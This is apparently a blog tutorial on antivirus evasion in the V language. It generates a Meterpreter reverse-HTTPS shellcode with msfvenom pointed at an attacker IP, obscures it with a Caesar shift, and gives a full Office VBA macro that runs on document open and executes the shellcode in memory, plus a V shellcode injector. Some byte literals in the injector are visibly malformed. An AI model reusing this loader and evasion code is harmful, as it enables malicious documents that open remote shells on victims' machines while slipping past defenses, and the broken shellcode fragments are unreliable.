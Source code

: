 ```yaml
---
layout: single
title:  "OffensiVe Security with V 3 - Caesar"
date:   2022-11-2 21:54:50 -0500
categories: app-development
tags: vlang windows osep
permalink: /:categories/:title/

header:
  overlay_image: /images/cloudflare1/banner.png
  overlay_filter: rgba(0, 0, 0, 0.7)
  actions:
     - label: "View Code"
       url: "https://github.com/alexfrancow/offensive-vlang"
  
---
```


In the previous part of this series of posts, the [XOR Cipher](https://alexfrancow.github.io/app-development/OffensiVe-Security-with-V-3-XOR/) was detailed, in this part another **cipher technique** with **Caesar encryption** will be investigated in order to mitigate **AV defenses**.

## Caesar Cipher

The **Caesar cipher** was one of the earliest encryption schemes and is very simple. It is categorized as a **substitution cipher** since it substitutes a letter or number by shifting it to the right by the number specified in the key.

```
Input Output
C -> D
a -> b
e -> f
s -> t
a -> b
r -> s
```

For this, the following code will be used, which shows the encryption method in the **V** language.
First, we'll need to generate a payload, to do so we'll use the following snippet from `msfvenom`.

```bash
msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.49.86 LPORT=443 -f csharp
```

Once the payload was generated the output will be similar at the following.

```bash
byte[] buf = new byte[547] {
    0xfc,0xe8,0x8f,0x00,0x00,0x00,0x60,0x31,0xd2,0x64,0x8b,0x52,0x30,0x8b,0x52,
    ..snip..
    0xa2,0x56,0x6a,0x00,0x53,0xff,0xd5 };
```

It will be necessary to convert the **csharp** output to **V**, for this we copy each byte *(547)* in the same way and we will group it by square brackets. To get something similar to the following code block.

```bash
buf := [
    byte(0xfc),0xe8,0x8f,0x00,0x00,0x00,0x60,0x89,0xe5,0x31,0xd2,0x64,0x8b,0x52,0x30,
    ..snip..
    0x38,0x36,0x00,0xbb,0xf0,0xb5,0xa2,0x56,0x6a,0x00,0x53,0xff,0xd5 ]
```

The next step will be to implement the **Caesar encryption** algorithm. To do this, iterates over all the characters of the **payload**, exchanging them with a **sum** of **+2** (It could be a sum of any number).
To implement that, the following code was created.
```c
fn main() {
    // Caesar cipher
    mut encoded := buf.clone()
    for i := 0; i < buf.len; i++ {
        encoded[i] = buf[i] + 2 & 0xFF
    }
```

>  We performed a bitwise **AND** *(&)* operation with `0xFF` to keep the modified value within the 0-255 range (single byte) in case the increased byte value exceeds `0xFF`.

Once we have each byte replaced, it is converted to VBA code. To do this, add the string `buf = Array(` at the beginning, a `)` at the end and add a `, _` every 30 iterations. This is necessary so that office can read the payload.
The following code shows the theory.
```c
    // To VBA
    mut v := ''
    for i := 0; i < encoded.len; i++ {
        if i == 0 {
            v += 'buf = Array(${encoded[i]}, '
        }
        else if i  == encoded.len - 1 {
            v += '${encoded[i]})'
        }
        else {
            if i % 30 == 0 {
	              v += '${encoded[i]}, _ \n'
	      }
            else {
                v += '${encoded[i]}, '
            }
        }
    }

    println(v)
}
```

It is also possible to convert it to **Hexadecimal**.
```c
    // To Hex
    mut h := ''
    for i := 0; i < encoded.len; i++ {
        h += '0x${int(encoded[i]):x}, '
    }
```

Or to a **String**.
```c
    // To string
    mut s := ''
    for i := 0; i < encoded.len; i++ {
        s += encoded[i].ascii_str()
    }
```

The output of the code will be the payload in **VBA** format, which we can import into an **Office macro** as shown in the following example.
Here it is necessary to subtract the number of substitutions that we have made when encrypting the payload with **Caesar** *(-2)*.
```vb
Private Declare PtrSafe Function CreateThread Lib "KERNEL32" (ByVal SecurityAttributes As Long, ByVal StackSize As Long, ByVal StartFunction As LongPtr, ThreadParameter As LongPtr, ByVal CreateFlags As Long, ByRef ThreadId As Long) As LongPtr
Private Declare PtrSafe Function VirtualAlloc Lib "KERNEL32" (ByVal lpAddress As LongPtr, ByVal dwSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As LongPtr
Private Declare PtrSafe Function RtlMoveMemory Lib "KERNEL32" (ByVal lDestination As LongPtr, ByRef sSource As Any, ByVal lLength As Long) As LongPtr

Sub MyMacro()
    Dim buf As Variant
    Dim addr As LongPtr
    Dim counter As Long
    Dim data As Long
    Dim res As Long
    buf = Array(254, 234, 145, 2, 2, 2, 98, 51, 212, 139, 231, 102, 141, 84, 50, 141, 84, 14, 141, 84, 22, 141, 116, 42, 17, 185, 76, 40, 51, 1, 51, _
    ..snip..
    231, 90, 197, 97, 234, 109, 1, 1, 1, 51, 59, 52, 48, 51, 56, 58, 48, 54, 59, 48, 58, 56, 2, 189, 242, 183, 164, 88, 108, 2, _
    85, 1, 215)

    ' Caesar decipher
    For i = 0 To UBound(buf)
        buf(i) = buf(i) - 2
    Next i
    
    addr = VirtualAlloc(0, UBound(buf), &H3000, &H40)
    For counter = LBound(buf) To UBound(buf)
        data = buf(counter)
        res = RtlMoveMemory(addr + counter, data, 1)
    Next counter
    res = CreateThread(0, 0, addr, 0, 0, 0)
End Sub

Sub Document_Open()
    MyMacro
End Sub

Sub AutoOpen()
    MyMacro
End Sub
```

Instead of using an **Office macro**, it is possible to inject a **Hexadecimal shellcode** directly with **V**.

```c
module main
import time

#flag -luser32
#flag -lkernel32

fn C.VirtualAlloc(voidptr, u32, u32, u32) voidptr
fn C.RtlMoveMemory(voidptr, voidptr, u32)
fn C.CreateThread(voidptr, u32, voidptr, voidptr, u32, &u32) voidptr

fn inject(shellcode []byte) bool {
    println('Creating virtualAlloc')
    address_pointer := C.VirtualAlloc(voidptr(0), usize(sizeof(shellcode)), 0x3000, 0x40)

    println('WriteProcessMemory')
    C.RtlMoveMemory(address_pointer, shellcode.data, shellcode.len)

    println('CreateRemoteThread')
    C.CreateThread(voidptr(0), u32(0), voidptr(address_pointer), voidptr(0), 0, &u32(0))
    time.sleep(1 * time.second)
    return true
}

fn main() {
    buf := [
    byte(0xfe), 0xea, 0x971,33, 0x32, 0x30x, 0x6d, 0x79, 0x65, 0xa1, 0xc8, 0x6c, 
    ..snip..
    0x21, 0x50x2, 0x6a, 0x2,]

    // Caesar decipher
    mut shellcode := buf.clone()
    for i := 0; i < buf.len; i++ {
        shellcode[i] = buf[i] - 2
    }
    inject(shellcode)
}
```

It is possible to **build** the above code with:

```bash
v caesar.v
```

### Demo

<iframe width="560" height="315" src="https://www.youtube.com/embed/D6csaUgbVxw" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>
